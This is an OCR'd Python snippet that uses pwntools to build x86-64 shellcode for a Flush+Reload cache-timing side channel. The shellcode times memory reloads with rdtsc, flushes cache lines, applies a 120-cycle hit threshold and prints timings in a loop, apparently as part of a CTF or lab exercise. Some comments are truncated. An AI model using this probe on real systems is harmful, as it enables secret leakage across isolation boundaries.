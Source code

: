 ```python
	shellcode +=  ' mfence\n'
	shellcode +=  ' lfence\n'      # `mfence` and `lfence` commands prevent 
	shellcode +=  ' rdtsc\n'       # later lines from executing until everything
	shellcode +=  ' lfence\n'      # before them has finished, improving time
	shellcode +=  ' mov rbx, rax\n'# measurement
	shellcode +=  ' mov r10, [rdi]\n'   # Loading the memory address rdi
	shellcode +=  ' lfence\n'
	shellcode +=  ' rdtsc\n'
	shellcode +=  ' sub rax, rbx\n'
	shellcode +=  ' clflush [rdi]\n'

	# Check if the time waited to reload was less than 120 cycles
	shellcode +=  ' cmp rax, 120\n'  

	# Jump to skip_print if the condition is not met
	shellcode +=  ' jge skip_print\n'

	# Put the number 1 onto the stack (this is just what our program is looking
	# for to be outputted, could be anything
	shellcode += shellcraft.mov('rax', 1)
	shellcode +=  ' push rax\n'

	# Store an 8-byte string on the stack to print as a prefix
	shellcode += shellcraft.pushstr("\nTime:\t")

	# Write the reload time to STDOUT
	shellcode += shellcraft.mov('r9', 1) # STDOUT file descriptor
	shellcode +=  ' lea rsi, [rsp]\n'  # Source address (8 bytes before the string where time is)
	shellcode += shellcraft.mov('rdx', 16) # Number of bytes to write
	shellcode += shellcraft.syscall('SYS_write', 'r9', 'rsi', 'rdx')

	# Restore rcx (not actually
	shellcode +=  ' add rsp, 8\n'  # Remove the string from the stack
	shellcode +=  ' pop rax\n' # Just getting the 1 off the stack
	shellcode +=  'skip_print:\n'
	shellcode +=  ' pop rcx\n'

	# Decrement counter and check if zero
	shellcode +=  ' dec rcx\n'
	shellcode +=  ' test rcx, rcx\n'
	shellcode +=  ' jnz loop_start\n'

	# Exit
	shellcode += shellcraft.amd64.exit(0) # Exit
	return asm(shellcode)
```